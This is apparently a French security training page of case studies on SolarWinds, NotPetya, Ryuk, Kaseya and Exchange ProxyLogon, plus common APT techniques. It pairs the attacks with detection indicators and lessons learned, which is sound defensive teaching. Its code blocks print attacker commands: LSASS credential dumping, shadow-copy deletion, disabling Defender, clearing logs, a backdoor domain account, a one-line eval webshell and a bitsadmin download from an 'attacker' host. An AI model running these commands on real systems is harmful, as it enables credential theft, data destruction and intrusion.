





---
tags:
  - formation
  - security
  - case-studies
  - apt
  - breaches
  - real-world
---

# Real-World Case Studies

Analyses de compromissions réelles et de techniques APT documentées publiquement. Ces études illustrent les techniques couvertes dans cette formation.

!!! note "Sources"
    Ces analyses sont basées sur des rapports publics de DFIR, threat intelligence et post-mortems d'incidents.

---

## 1. SolarWinds / SUNBURST (2020)

### 1.1 Contexte

L'une des plus grandes supply chain attacks de l'histoire, attribuée à un groupe lié à la Russie (APT29/Cozy Bear).



### 1.2 Techniques Utilisées (MITRE ATT&CK)

| Phase | Technique | ID |
|-------|-----------|-----|
| Initial Access | Supply Chain Compromise | T1195.002 |
| Execution | Signed Binary Proxy Execution | T1218 |
| Persistence | SAML Token Forgery | T1606.002 |
| Credential Access | DCSync | T1003.006 |
| Defense Evasion | Domain Trust Manipulation | T1484.002 |
| Lateral Movement | Remote Services | T1021 |

### 1.3 Focus : Golden SAML

La technique la plus notable était le **Golden SAML** :

```bash
# Après compromission d'ADFS, les attaquants ont:

# 1. Extrait le certificat de signature ADFS
# Situé dans la base ADFS ou via DPAPI

# 2. Forgé des tokens SAML arbitraires
# Permettant d'accéder à Azure AD/O365 comme n'importe quel utilisateur
# Sans connaître le mot de passe
# Sans déclencher d'alertes

# 3. Accédé aux emails, SharePoint, Teams des cibles
```

### 1.4 Détection

```yaml
# Indicateurs de compromission

# DNS anormal vers domaines C2
avsvmcloud.com
freescanonline.com
deftsecurity.com

# User-Agent suspect
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36...

# Process suspect
C:\Program Files\SolarWinds\Orion\SolarWinds.Orion.Core.BusinessLayer.dll

# Event ADFS
# Changement de certificat de signature
# Logon depuis IP inhabituelles
```

### 1.5 Leçons Apprises

- Supply chain = vecteur critique à surveiller
- Monitoring des tokens ADFS/SAML essentiel
- Rotation régulière des certificats ADFS
- Segmentation du build pipeline

---

## 2. NotPetya (2017)

### 2.1 Contexte

Wiper déguisé en ransomware, propagé via le logiciel de comptabilité ukrainien M.E.Doc. $10B+ de dégâts mondiaux.



### 2.2 Techniques Utilisées

| Phase | Technique | Description |
|-------|-----------|-------------|
| Initial Access | Supply Chain | M.E.Doc update |
| Execution | SMB/EternalBlue | MS17-010 |
| Credential Access | Mimikatz | LSASS dump |
| Lateral Movement | WMI, PsExec | Admin share |
| Impact | Disk Wipe | MBR overwrite |

### 2.3 Propagation Autonome

```c
// Le malware utilisait plusieurs vecteurs de propagation:

// 1. EternalBlue (MS17-010)
// Exploit SMB sans authentification
// Très efficace sur réseaux non patchés

// 2. Credential theft + Admin shares
// Mimikatz pour extraire les credentials
// Propagation via \\target\admin$ et \\target\c$

// 3. WMI Remote Execution
wmic /node:<IP> /user:<user> /password:<pass> process call create <cmd>

// 4. PsExec-like
// Création de service distant pour exécution
```

### 2.4 Leçons Apprises

- Patcher MS17-010 (EternalBlue) - toujours d'actualité
- Désactiver SMBv1
- Credential Guard pour protéger LSASS
- Segmentation réseau critique
- Backup offline (air-gapped)

---

## 3. Ryuk Ransomware (2018-Present)

### 3.1 Contexte

Ransomware opéré par humains (human-operated), ciblant les grandes entreprises. Souvent précédé par Emotet/TrickBot.



### 3.2 Techniques Observées

```powershell
# Reconnaissance AD
nltest /domain_trusts
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain

# Credential Dumping
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

# Désactivation des backups
vssadmin delete shadows /all /quiet
wmic shadowcopy delete
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled No

# Désactivation des services de sécurité
net stop "Sophos AutoUpdate Service"
net stop "Windows Defender"
sc config WinDefend start= disabled

# Propagation
PsExec.exe \\<target> -u <domain>\<admin> -p <pass> -d -h -c ryuk.exe
```

### 3.3 Défense

```powershell
# Bloquer les exécutions Office → PowerShell
# ASR rules (Attack Surface Reduction)
Add-MpPreference -AttackSurfaceReductionRules_Ids be9ba2d9-53ea-4cdc-84e5-9b1eeee46550 -AttackSurfaceReductionRules_Actions Enabled

# Surveiller les shadow copies
# Event ID 524 (VSS Error)
Get-WinEvent -FilterHashtable @{LogName='System'; ID=524}

# Backup isolation
# Backups sur réseau séparé, non accessible depuis le réseau principal
```

---

## 4. Kaseya VSA Attack (2021)

### 4.1 Contexte

Supply chain attack via Kaseya VSA (Remote Monitoring & Management). REvil ransomware déployé sur 1,500+ entreprises.

### 4.2 Chaîne d'Attaque



### 4.3 Exploitation

```bash
# CVE-2021-30116: Authentication Bypass + SQL Injection

# 1. Bypass authentication
POST /dl.asp HTTP/1.1
# Cookie manipulation pour accéder comme admin

# 2. Upload du payload
# Via le mécanisme légitime de déploiement de patches

# 3. Exécution via l'agent Kaseya
# Les agents VSA ont des privilèges élevés
# Le ransomware s'exécute avec les droits de l'agent
```

### 4.4 Leçons Apprises

- Les outils RMM sont des cibles prioritaires (accès privilégié)
- Supply chain via MSPs = impact massif
- Monitoring des outils d'administration
- Principe du moindre privilège pour les agents

---

## 5. Exchange ProxyLogon (2021)

### 5.1 Contexte

Exploitation massive de vulnérabilités Exchange Server (CVE-2021-26855, CVE-2021-27065). Webshells déployés sur des milliers de serveurs.

### 5.2 Chaîne d'Exploitation



### 5.3 Exploitation Technique

```bash
# CVE-2021-26855: SSRF
# Permet d'atteindre le backend Exchange sans authentification

POST /ecp/x.js HTTP/1.1
Host: exchange.target.com
Cookie: X-BEResource=target/EWS/Exchange.asmx?a=~1337;

# CVE-2021-27065: Arbitrary File Write
# Permet d'écrire des fichiers sur le serveur
# Utilisé pour déployer des webshells

# Webshell typique
<%@ Page Language="Jscript"%>
<%eval(Request.Item["exec"],"unsafe");%>
```

### 5.4 Post-Exploitation Observée

```powershell
# Activités post-exploitation documentées:

# Credential dumping
procdump.exe -ma lsass.exe lsass.dmp

# Enumération AD
nltest /dclist:domain.local
net group "Domain Admins" /domain

# Création de comptes backdoor
net user /add hacker P@ssw0rd /domain
net group "Exchange Organization Administrators" hacker /add /domain

# Exfiltration de boîtes mail
# Via EWS API ou OWA
```

### 5.5 Indicateurs

```bash
# Webshells communs
C:\inetpub\wwwroot\aspnet_client\*.aspx
C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\*.aspx

# Fichiers suspects
*.aspx contenant eval(Request
*.aspx avec obfuscation base64

# Event logs
# IIS logs avec /ecp/y.js, /ecp/x.js patterns
# Exchange logs avec autodiscover/autodiscover.json
```

---

## 6. Techniques Communes APT

### 6.1 Initial Access

| Technique | Exemples | Fréquence |
|-----------|----------|-----------|
| Spear Phishing | Macro Office, LNK, ISO | Très élevée |
| Exploitation | Exchange, VPN, RDP | Élevée |
| Supply Chain | SolarWinds, Kaseya | En hausse |
| Valid Accounts | Credential stuffing | Élevée |

### 6.2 Persistence

```powershell
# Techniques APT courantes pour la persistence

# 1. Scheduled Tasks
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\backdoor.exe" /sc daily

# 2. Registry Run Keys
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "SecurityHealth" /d "C:\backdoor.exe"

# 3. WMI Event Subscription
# Déclenche à chaque démarrage

# 4. BITS Jobs
bitsadmin /create /download job
bitsadmin /addfile job http://attacker/payload.exe C:\backdoor.exe

# 5. DLL Side-Loading
# Placer une DLL malveillante dans le répertoire d'une application légitime
```

### 6.3 Defense Evasion

```powershell
# Techniques observées dans les APT

# 1. Timestomping
# Modifier les timestamps pour matcher les fichiers légitimes

# 2. Code Signing
# Utiliser des certificats volés ou achetés

# 3. Living off the Land
# Utiliser PowerShell, WMI, BITS, certutil

# 4. Disable Security Tools
net stop "Windows Defender"
Set-MpPreference -DisableRealtimeMonitoring $true

# 5. Log Tampering
wevtutil cl Security
```

### 6.4 Exfiltration

```bash
# Méthodes d'exfiltration APT

# 1. HTTPS vers domaines légitimes
# Utilisation de services cloud (OneDrive, Dropbox, Google Drive)

# 2. DNS Tunneling
# Données encodées dans les requêtes DNS

# 3. Steganographie
# Données cachées dans des images

# 4. Staging interne
# Compression et staging avant exfiltration
7z a -pPassword archive.7z sensitive_data\
# Exfiltration par morceaux
```

---

## 7. Mapping Formation ↔ Techniques APT

| Module Formation | Techniques APT Correspondantes |
|-----------------|-------------------------------|
| **Module 02 - Reconnaissance** | Énumération AD par APT29, APT32 |
| **Module 03 - AD Compromise** | Golden Ticket (APT29), DCSync (multiple) |
| **Module 04 - Privilege Escalation** | Potato attacks (ransomware groups) |
| **Module 05 - Post-Exploitation** | Mimikatz (ubiquitous), Cobalt Strike (multiple) |
| **Pivoting & Tunneling** | DNS tunneling (APT34), Chisel-like (multiple) |
| **OPSEC** | Sleep obfuscation, domain fronting (APT29) |

---

## 8. Ressources Threat Intelligence

### 8.1 Rapports DFIR

| Source | Description |
|--------|-------------|
| [The DFIR Report](https://thedfirreport.com) | Analyses détaillées d'intrusions |
| [Mandiant Reports](https://mandiant.com/resources) | Threat intelligence APT |
| [CrowdStrike Blog](https://crowdstrike.com/blog) | Analyses de menaces |
| [Microsoft Security Blog](https://microsoft.com/security/blog) | Menaces Microsoft ecosystem |

### 8.2 MITRE ATT&CK

- [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - Visualisation des techniques
- [Threat Groups](https://attack.mitre.org/groups/) - Profiles APT
- [Software](https://attack.mitre.org/software/) - Outils utilisés

### 8.3 Règles de Détection

- [Sigma Rules](https://github.com/SigmaHQ/sigma) - Règles génériques
- [Elastic Detection Rules](https://github.com/elastic/detection-rules)
- [Splunk Security Content](https://github.com/splunk/security_content)

---

[Retour au Programme](index.md){ .md-button }
[Troubleshooting →](troubleshooting.md){ .md-button .md-button--primary }
